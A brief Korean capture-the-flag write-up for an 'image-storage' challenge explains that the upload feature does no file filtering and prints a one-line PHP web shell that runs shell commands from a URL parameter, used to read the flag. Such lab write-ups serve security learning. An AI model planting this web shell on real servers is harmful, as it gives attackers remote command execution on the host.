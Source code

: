 # image-storage

소스코드를 보니 업로드 되는 파일에 필터링이 없어서 바로 간단한 웹 쉘을 업로드 해보았다.   

### web shell
```
<?php
echo shell_exec($_GET['cmd']);
?>
```   
   
   
![image1](!1.PNG)   
성공적으로 업로드가 되어서 쉽게 flag를 확인할 수 있었다.
